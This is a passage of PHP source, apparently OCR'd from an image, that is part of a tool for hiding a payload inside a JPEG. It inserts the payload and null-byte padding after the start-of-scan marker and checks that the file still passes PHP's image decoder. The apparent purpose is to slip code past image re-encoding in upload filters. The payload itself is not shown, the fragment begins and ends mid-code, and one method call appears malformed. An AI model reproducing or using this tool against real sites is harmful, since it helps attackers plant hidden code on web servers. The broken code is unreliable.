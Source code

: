 ```php

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
```